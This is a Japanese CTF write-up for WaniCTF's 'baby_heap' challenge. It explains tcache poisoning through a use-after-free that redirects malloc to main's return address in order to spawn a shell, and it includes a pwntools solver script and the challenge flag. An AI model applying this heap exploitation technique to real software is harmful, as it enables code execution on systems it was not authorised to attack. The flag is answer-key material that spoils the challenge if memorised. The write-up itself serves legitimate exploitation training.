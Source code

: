 ```yaml
---
title: baby_heap
level: 3
flag: FLAG{This_is_Hint_for_the_diva}
writer: EBeb
badge: true
---
```


# REAL_BABY_HEAP 

## 問題文
Tcache poisoningを練習するための問題です。
- 自由にmallocとfreeと書き込みができます。
- freeされたchunkにはデータの代わりにfdというアドレスが残ります。
- fd(forward)はLast-In-First-OutのLinked Listで構成されます。
- malloc先はこのfdのアドレスを参照して決められます。
- main_retにmallocしてsystem('/bin/sh')を書いてmain関数を終了しましょう。

`nc babyheap.pwn.wanictf.org 9006`


## 解法

### Step 1. main retにMallocする。


freeされたChunkにも書き込みができるUse After Freeがある。　これでfdを書き換えることでmallocされるアドレスを変更できる。

ここにmain関数のretアドレスをいれると、上のfdの情報からいつそこにmallocされるか見ることができる。

適当なChunkをFreeして、freeされたchunkにmain retを書くことでmain_retの値を書き換えることができる。

### Step 2. main retアドレスにあるChunkにsystem('/bin/sh')命令のアドレスを書き込む


これでMain関数が終了されたらsystem('/bin/sh')が実行される。

この事実でmain関数のretが書き換えられたことが確認できる。

 

### Solverのコードと結果

```
from pwn import *

pc = process("./chall")
print(pc.recvuntil(b"at >"))
binsh = int(pc.recvuntil(b"\n")[:-1], 16)
print(pc.recvuntil(b"Return address of main at >"))
main_ret = int(pc.recvuntil(b"\n")[:-1], 16)
print(hex(binsh))
print(hex(main_ret))
# malloc
pc.sendline("1")
pc.sendline("0")
# malloc
pc.sendline("1")
pc.sendline("1")
# free
pc.sendline("2")
pc.sendline("0")
# free
pc.sendline("2")
pc.sendline("1")
# overwrite fd
pc.sendline("3")
pc.sendline("1")
pc.sendline(hex(main_ret))
# malloc
pc.sendline("1")
pc.sendline("2")
# malloc at main_ret
pc.sendline("1")
pc.sendline("3")
# write at main_ret
pc.sendline("3")
pc.sendline("3")
pc.sendline(hex(binsh))
# end main
pc.sendline("4")
# shell
pc.interactive()
```
